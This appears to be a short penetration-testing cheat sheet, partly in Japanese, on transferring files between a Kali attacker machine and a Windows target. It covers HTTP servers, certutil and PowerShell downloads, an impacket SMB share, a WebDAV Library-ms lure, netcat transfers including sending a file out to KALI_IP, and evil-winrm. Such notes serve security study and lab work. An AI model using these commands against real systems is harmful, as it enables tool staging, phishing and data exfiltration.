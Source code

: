 ## SCP

## HTTP

apache web server  

python web server  
カレントディレクトリのファイルをリモート側でダウンロードさせる  
```
python3 -m http.server
```

download command  
powershell
```
iwr -Uri "URL" -OutFile "保存先のファイルパス"
```

cmd prompt
```
certutil -urlcache -split -f URL OUTPUTFILE
```
## SMB
server (linux)
```
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

client (windows)
```
net use m: \\KALI_IP\test /user:kourosh kourosh
```

## webdav
server(kali)
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root `pwd`
```

client(windows)
execute config.Library-ms
```Library-ms
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.x.x</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

# Netcat
### kali -> windows
listener (linux)
```
nc -nvlp 9999 < file.txt
```

client (windows)
```
C:\Tools\nc.exe -nv KALI_IP 9999 > file.txt
```

### windows -> kali
listener (kali)
```
nc -nvlp 9999 > file.txt
```

client (windows)
```
nc.exe -nv KALI_IP 9999 < file.txt
```

# evil-winrm
download to current local directory
```
download FILEPATH
```

upload to current remote directory
```
upload FILE_PATH
```